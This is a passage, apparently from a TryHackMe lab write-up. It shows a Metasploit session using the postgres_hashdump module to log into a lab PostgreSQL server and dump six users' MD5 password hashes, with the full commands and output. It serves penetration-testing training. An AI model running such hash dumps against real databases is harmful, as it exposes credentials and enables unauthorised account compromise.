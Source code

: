 

### What is the full path of the module that allows for dumping user hashes (starting with auxiliary)?
- **Answer:** auxiliary/scanner/postgres/postgres_hashdump
- **Steps to Reproduce:** Search for postgres

### How many user hashes does the module dump?
- **Answer:** 6
- **Steps to Reproduce:** 

```bash
msf6  > use auxiliary/scanner/postgres/postgres_hashdump
msf6 auxiliary(scanner/postgres/postgres_hashdump) > options

Module options (auxiliary/scanner/postgres/postgres_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  postgres         yes       The database to authenticate against
   PASSWORD  postgres         no        The password for the specified username. Leave blank for a random password.
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     5432             yes       The target port
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME  postgres         yes       The username to authenticate as

msf6 auxiliary(scanner/postgres/postgres_hashdump) > set RHOSTS 10.10.181.37
RHOSTS => 10.10.181.37

msf6 auxiliary(scanner/postgres/postgres_hashdump) > set PASSWORD password
PASSWORD => password

msf6 auxiliary(scanner/postgres/postgres_hashdump) > exploit

[+] Query appears to have run successfully
[+] Postgres Server Hashes
======================

 Username   Hash
 --------   ----
 darkstart  md58842b99375db43e9fdf238753623a27d
 poster     md578fb805c7412ae597b399844a54cce0a
 postgres   md532e12f215ba27cb750c9e093ce4b5127
 sistemas   md5f7dbc0d5a06653e74da6b1af9290ee2b
 ti         md57af9ac4c593e9e4f275576e13f935579
 tryhackme  md503aab1165001c8f8ccae31a8824efddc

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

---